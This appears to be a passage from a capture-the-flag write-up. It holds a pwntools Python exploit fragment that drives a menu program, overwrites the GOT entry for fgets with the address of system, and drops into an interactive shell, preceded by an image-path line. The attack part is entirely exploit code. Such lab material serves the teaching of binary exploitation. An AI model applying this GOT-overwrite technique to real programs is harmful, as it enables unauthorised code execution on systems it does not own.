 ```py

# Add element to list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'2')
# Overwrite got.fgets with system (+1 for for stack alignment)
io.sendlineafter(b'>>>', flat(system + 1))

# See if we've got a shell
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
# Got Shell?
io.interactive()
```
{% endcode %}
